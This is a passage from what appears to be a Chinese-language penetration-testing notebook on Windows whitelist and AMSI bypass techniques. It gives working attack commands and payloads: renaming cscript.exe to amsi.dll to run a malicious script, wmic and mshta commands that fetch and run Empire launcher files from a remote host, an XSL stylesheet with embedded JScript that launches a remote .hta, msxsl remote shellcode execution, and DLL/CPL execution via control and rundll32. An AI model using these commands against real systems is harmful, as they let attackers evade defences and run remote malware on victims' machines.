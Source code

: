 	生成的2.txt文件内容替换为var EncodedPayload的值再执行
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/138.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/139.png)
  ##### 绕过AMSI执行
	>copy c:\windows\system32\cscript.exe amsi.dll
	>amsi.dll evil.js
  #### WMIC
	Empire建立监听，生成windows/launcher_xsl模块的xsl文件保存在web目录
	>wmic process get brief /format:http://192.168.0.107:8080/launcher.xsl
	也可结合mshta使用
```xml
<?xml version='1.0'?>
<stylesheet
xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="placeholder"
version="1.0">
<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
	<![CDATA[
	var r = new ActiveXObject("WScript.Shell").Run("mshta http://192.168.0.107:8080/RgNeCv.hta");
	]]> </ms:script>
</stylesheet>

```
  #### Msxsl
	下载
	https://www.microsoft.com/en-us/download/details.aspx?id=21714
	远程执行shellcode
	https://github.com/3gstudent/Use-msxsl-to-bypass-AppLocker/blob/master/shellcode.xml
	>msxls.exe http://192.168.0.107/shellcode.xml http://192.168.0.107/shellcode.xml
	Empire生成shellcode贴到脚本中EncodedPayload位置
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/140.png)
  #### CPL
	Kali监听
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/141.png)

	编译成DLL
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/142.png)
	
	Control执行
	>control C:\Users\Administrator.DC\Desktop\VC6.0green\MyProjects\dll\Debug\dll.dll
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/143.png)

	或将DLL后缀改为cpl，双击执行，或rundll32执行
	>rundll32.exe shell32.dll,Control_RunDLL C:\Users\Administrator.DC\Desktop\VC6.0green\MyProjects\dll\Debug\dll.dll
